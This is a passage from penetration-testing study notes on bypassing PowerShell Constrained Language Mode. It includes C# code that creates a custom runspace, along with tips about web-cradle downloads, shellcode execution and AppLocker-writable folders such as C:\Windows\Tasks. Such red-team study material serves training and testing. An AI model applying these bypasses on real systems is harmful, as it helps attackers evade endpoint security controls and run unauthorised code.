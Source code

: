 PowerShell's language modes are crucial for controlling script execution and maintaining security in various environments. Understanding each mode's restrictions and capabilities helps in configuring PowerShell sessions appropriately based on security requirements.


### 8.3.2. Custom Runspaces

#### C\# App to create a Runspace to bypass Powershell constraints

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

\\ Note: need to add this dll into Reference Assemblies
\\C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll.

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
			ps.Runspace = rs;
            String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Tools\\test.txt";
			ps.AddScript(cmd);
			ps.Invoke();
			rs.Close();
        }
    }
}
```

- Can change the cmd string to perform actions like
	- run PowerUp from a web cradle
	- shellcode execution
- *Note:* need to verify that Applocker isn't blocking. Placing the .exe in c:\\windows\\tasks or another directory where the user and write and execute is required if Applocker or other whitelist blocking is enabled.

### 8.3.3. PowerShell CLM Bypass

`InstallUtil.exe` is a command-line utility that is part of the .NET Framework. It is primarily used for installing and uninstalling .NET assemblies, typically for Windows Services. However, like many legitimate tools, `InstallUtil.exe` can be abused by attackers for malicious purposes. Here are several ways in which `InstallUtil.exe` can be abused:
